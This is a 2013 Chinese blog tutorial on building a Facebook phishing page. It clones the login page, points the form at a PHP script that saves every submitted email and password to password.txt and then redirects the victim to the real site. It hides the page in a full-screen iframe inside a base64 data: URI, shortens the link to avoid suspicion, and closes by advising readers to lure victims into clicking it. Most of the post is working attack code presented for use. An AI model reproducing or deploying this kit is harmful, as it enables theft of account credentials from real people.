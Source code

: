 title: "iframe经典钓鱼演示,facebook钓鱼实例"
tags:
  - facebook钓鱼
id: 665
categories:
  - code
date: 2013-05-23 20:48:36
---

### 前言

以盗取facebook登陆帐号的钓鱼为例,一共包含三个文件,<span style="color: #3366ff;">index.html</span>,<span style="color: #3366ff;">login.php</span>,<span style="color: #3366ff;">password.txt</span>

制作<span style="color: #3366ff;">index.html</span>登陆页面
首先,打开 <span style="color: #3366ff;">https://www.facebook.com</span>页面,查看源码,将源码copy到<span style="color: #3366ff;">index.html</span>文件中
然后,编辑<span style="color: #3366ff;">index.html</span>文件,找到
<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">&lt;form id=&quot;login_form&quot; action=&quot;https://www.facebook.com/login.php?login_attempt=1&quot; method=&quot;post&quot; onsubmit=&quot;return window.Event &amp;amp;&amp;amp; Event.__inlineSubmit &amp;amp;&amp;amp; Event.__inlineSubmit(this,event)&quot;&gt;</pre>
将action的值改为
<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">action=login.php?&quot;https://www.facebook.com/login.php?login_attempt=1&quot;</pre>
(<span style="color: #3366ff;">login.php</span>是用来盗取登陆帐号密码的）

将<span style="color: #3366ff;">index.html</span>放到web目录下（我的放置在<span style="color: #ff0000;">/Library/WebServer/Documents/facebook</span>目录下）

<!--more-->

![facebook](http://old.lurrpis.com/wp-content/uploads/2013/05/facebook.png)

制作盗取facebook帐户和密码的脚本<span style="color: #3366ff;">login.php</span>
<pre class="brush: php; gutter: true; first-line: 1; highlight: []; html-script: false">&lt;?php
header (&#039;Location: https://www.facebook.com &#039;);//跳转到真实的facebook页面
$handle = fopen(&quot;password.txt&quot;, &quot;a&quot;);//将假页面中提交的POST数据写入password.txt文件中
foreach($_POST as $variable =&gt; $value) {
    fwrite($handle, $variable);
    fwrite($handle, &quot;=&quot;);
    fwrite($handle, $value);
    fwrite($handle, &quot;\r\n&quot;);
}
fwrite($handle, &quot;===============\r\n&quot;);
fclose($handle);
exit;
?&gt;</pre>
创建接收POST数据的<span style="color: #ff0000;">password.txt</span>文件
<pre class="brush: php; gutter: true; first-line: 1; highlight: []; html-script: false">dani-2:facebook leedani$ pwd
/Library/WebServer/Documents/facebook
dani-2:facebook leedani$ sudo touch password.txt

dani-2:facebook leedani$ sudo chmod a+w password.txt</pre>
测试
登陆<span style="color: #3366ff;">http://localhost/facebook/</span>
输入电子邮件与密码,点击登陆
查看<span style="color: #ff0000;">password.txt</span>文件
<pre class="brush: php; gutter: true; first-line: 1; highlight: []; html-script: false">dani-2:facebook leedani$ cat password.txt</pre>
![face2](http://old.lurrpis.com/wp-content/uploads/2013/05/face2.png)

看,<span style="color: #ff0000;">email</span>与<span style="color: #ff0000;">pass</span>字段就是facebook的登陆帐号与密码.

### 制作钓鱼URI

一般钓鱼会采用iframe用钓鱼页面遮盖原始页面的方式来进行钓鱼,接下来的操作就是生成一个有这个功能的Data: URI,并将这个URI进行短地址转换

src就是你存放钓鱼网页的地址
<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">&lt;style&gt; body {margin:0; overflow:hidden;}&lt;/style&gt;
&lt;iframe src=&quot;http://localhost/facebook/&quot; height=&quot;100%&quot; width=&quot;100%&quot; border=&quot;no&quot; frameBorder=&quot;0&quot; scrolling=&quot;auto&quot;&gt;iFrame Failed&lt;/iframe&gt;</pre>
登陆<span style="color: #3366ff;">http://dopiaza.org/tools/datauri/index.php</span>,将上面代码粘贴进去

对应的data: URI
<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">data:text/plain;charset=utf-8;base64,PHN0eWxlPiBib2R5IHttYXJnaW46MDsgb3ZlcmZsb3c6aGlkZGVuO308L3N0eWxlPg0KPGlmcm
FtZSBzcmM9Imh0dHA6Ly9sb2NhbGhvc3QvZmFjZWJvb2svIiBoZWlnaHQ9IjEwMCUiIHdpZHRoPSIxMDAlIiBib3JkZXI9Im5vIiBmcmFt
ZUJvcmRlcj0iMCIgc2Nyb2xsaW5nPSJhdXRvIj5pRnJhbWUgRmFpbGVkPC9pZnJhbWU+</pre>
将上面的data: URI中的data:text/plain改成data:text/html
<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">data:text/html;charset=utf-8;base64,PHN0eWxlPiBib2R5IHttYXJnaW46MDsgb3ZlcmZsb3c6aGlkZGVuO308L3N0eWxlPg0KPGlmcmFt
ZSBzcmM9Imh0dHA6Ly9sb2NhbGhvc3QvZmFjZWJvb2svIiBoZWlnaHQ9IjEwMCUiIHdpZHRoPSIxMDAlIiBib3JkZXI9Im5vIiBmcmFtZUJ
vcmRlcj0iMCIgc2Nyb2xsaW5nPSJhdXRvIj5pRnJhbWUgRmFpbGVkPC9pZnJhbWU+</pre>
访问修改后的Data URI,我们可以看到

![face3](http://old.lurrpis.com/wp-content/uploads/2013/05/face3.png)

点击facebook图标,或下面的url链接(浏览facebook.com）,将跳转到我们在第一步中创建的facebook的假登陆页面 <span style="color: #3366ff;">http://localhost/facebook/</span>

很显然,这个URI太长了,会引起怀疑,在真实环境下,我们可以先进行短网址转换,例如<span style="color: #3366ff;">http://tinyurl.com/</span>就提供这个服务

![face5](http://old.lurrpis.com/wp-content/uploads/2013/05/face5.png)

最后,引诱受害者点击这个会连接到钓鱼网页的URI就可以盗取帐号密码了.